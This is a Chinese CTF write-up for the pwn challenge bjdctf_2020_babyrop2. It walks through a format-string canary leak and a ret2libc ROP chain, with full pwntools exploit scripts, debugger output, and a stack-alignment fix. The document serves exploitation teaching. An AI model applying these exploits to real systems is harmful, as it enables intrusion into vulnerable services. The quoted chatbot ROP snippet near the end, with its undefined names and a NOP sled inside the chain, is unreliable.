




```shell
bamuwe@qianenzhao:~$ checksec bjdctf_2020_babyrop2
[*] '/home/bamuwe/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`canary`保护机制:在局部变量和返回地址间插入一个随机数,通过检测这个随机数判断是否存在栈溢出或修改.




> 红框位置就是`canary`值存在的位置



> `gift`函数



> `vuln`函数

1. 存在`canary`机制考虑怎么泄露`canary`,在`gift`函数中存在一个格式化字符漏洞可以利用

   - 因为这里对输入长度做了限制,所以不能用常规`%8x%8x%8x...`来泄露偏移量,但是我们可以用`%n$p`来泄露偏移量,`n`是偏移的位置,`$p`是打印该位置上的值

     ```python
     from pwn import *
     context.log_level = 'debug'
     io = process('./bjdctf_2020_babyrop2')
     io.sendlineafter(b"I'll give u some gift to help u!\n",b'A%6$p')
     io.interactive()
     ```

     ```shell
     [DEBUG] Received 0x44 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%6$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x36 bytes:
         b'A0x7024362541\n'
         b'Pull up your sword and tell me u story!\n'
     A0x7024362541
     Pull up your sword and tell me u story!
     $
     ```

     > 当`n`等于`6`时看到了`0x41`,确定偏移为`6`

   - 根据上面提到的,我们知道`canary`在栈的末尾,所以把偏移往后移一位就可以得到`canary`的值

     ```shell
     [DEBUG] Received 0x23 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
     [DEBUG] Received 0x21 bytes:
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%7$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x13 bytes:
         b'A0x6b3d526f8ba61400'
     $
     ```

     ```shell
     pwndbg> stack 0x20
     00:0000│ rsp 0x7ffd2b15b170 ◂— 0x7024372541 /* 'A%7$p' */
     01:0008│     0x7ffd2b15b178 ◂— 0x6b3d526f8ba61400
     02:0010│ rbp 0x7ffd2b15b180 —▸ 0x7ffd2b15b1a0 ◂— 0x1
     03:0018│     0x7ffd2b15b188 —▸ 0x400905 (main+43) ◂— mov eax, 0
     ```

2. 获得了`canary`之后就是常规的`64`位泄露`libc`,但是在填充栈的时候有一些不同,我们要注意覆盖`canary`的位置

   - 

     > 通过ida我们看到`buf`的栈空间为`0x18`

     栈填充部分如下

     | rbp  |         |        |       |
     | :--: | :-----: | :----: | :---: |
     |      | padding |        | 0x18  |
     |      |         | canary | value |
     |      |         | leave  |  0x8  |
     |      |         |  ret   |       |

     泄露`libc`完整`payload`

     | rbp  |           |        |       |            |
     | :--: | :-------: | :----: | :---: | :--------: |
     |      |  padding  |        | 0x18  |            |
     |      |           | canary | value |            |
     |      |           | leave  |  0x8  |            |
     |      |  pop_rdi  |  ret   |       | ROPgadgets |
     |      | puts_got  |  ret   |       |            |
     |      | puts_plt  |  ret   |       |            |
     |      | vuln_addr |  ret   |       |            |

3. 得到`libc`构造`payload`得到`shell`

```python
#远程脚本
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node5.buuoj.cn',26462)
elf = ELF('./bjdctf_2020_babyrop2')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
Liboffset = puts_addr - Lib.dump('puts')
sys_addr = Liboffset + Lib.dump('system')
bin_sh_addr = Liboffset + Lib.dump('str_bin_sh')
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(sys_addr)+p64(elf.sym['main'])
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

```python
#本地脚本
from pwn import *
context.log_level = 'debug'
#io = process('./bjdctf_2020_babyrop2')
io = gdb.debug('./bjdctf_2020_babyrop2','break vuln')
elf = ELF('./bjdctf_2020_babyrop2')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))
Liboffset = puts_addr - Lib.sym['puts']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(0x00000000004005f9)+p64(sys_addr)
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

由于我本地环境是`Wsl-Ubuntu-22.04`会出现本地打不通的情况,所以需要在调用`system`前加上`ret`即`+p64(0x00000000004005f9)`填充内存空间,具体原因参考如下

```
环境差异：
•	libc版本不同：不同版本的glibc库在处理函数调用时可能存在差异，如系统调用、格式化字符串解析、堆管理等。例如，上述信息提及，glibc 2.27及更高版本的system()函数内部实现可能使用了xmm寄存器，要求内存对齐，如果本地环境与远程环境的glibc版本不一致，可能导致利用失败。
```

通过调试可以发现,本地不通确实是因为调用了`xmm`寄存器
```shell
─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
   0x7faee5924967 <do_system+103>    mov    qword ptr [rsp + 188h], 0
 ► 0x7faee5924973 <do_system+115>    movaps xmmword ptr [rsp], xmm1
   0x7faee5924977 <do_system+119>    lock cmpxchg dword ptr [rip + 1cae01h], edx
   0x7faee592497f <do_system+127>    jne    7faee5924c30h                 <do_system+816>
```

我们需要让`system`的地址正好落在`16`字节的栈边界,从根本(原理)上改变是很困难的,但是可以通过填充`rop`比如`nop,ret`来填充需要的字节.

解决办法:在`system`函数地址前加一个或多个`ret`尝试打通本地

参考通义千问回答的代码:

>在使用pwntools编写exploit脚本时，确实可以通过ROP（Return-Oriented Programming）技术来实现对齐。如果你知道目标地址必须是对齐的，例如16字节对齐，那么在构造ROP链的过程中，可以插入适当的NOP sled或者找到内存中一个合适的返回指令片段，确保payload中的关键地址（比如system函数的地址或其所在plt/got表项的地址）在其之前填充足够的字节以达到对齐要求。
>
>例如，在ropchain构建过程中：
>
>```python
>
>from pwn import *
>
># 假设已经得到了elf、libc等上下文信息
>
>context.arch = 'amd64'  # 设置架构为x86_64
>
># ... 省略其他代码，如连接到远程服务器、获取shellcode等
>
># 找到system gadget和其他需要使用的gadgets
>pop_rdi = elf.gadgets['pop rdi; ret']  # 用于放置参数
>syscall = elf.plt['syscall']  # 或者直接用系统调用号对应的gadget
>
># 确保system地址是16字节对齐的
>system_addr = next((addr for addr in gadgets if addr % 16 == 0 and gadgets[addr].endswith('ret')), None)
>if not system_addr:
>    # 如果没有找到对齐的system gadget，可能需要创建一个填充的ROP链
>    padding = b'\x90' * (16 - (next_gadget_address % 16))  # 使用NOP sled填充
>    rop += padding
>    system_addr = next_gadget_address + len(padding)
>
>rop += p64(pop_rdi)  # 将"/bin/sh"字符串地址放入rdi
>rop += p64(binary.search('/bin/sh'))  # "/bin/sh"的地址
>rop += p64(system_addr)  # 调用system gadget
>
># 发送ROP链
>payload = b'A'*overflow_size + rop
>io.send(payload)
>```
>
>
>请注意上述代码仅为示例，实际利用中需要根据具体环境和栈布局来调整。在实际场景中，如果是因为system()函数内部实现要求xmm寄存器对齐，则通常会检查并保证栈上相关数据的对齐，而不仅仅是system函数本身的地址对齐。在这种情况下，你可能需要更深入地分析程序行为，并且可能需要结合额外的技术手段（如寻找特定类型的gadget）来构造满足条件的ROP链。
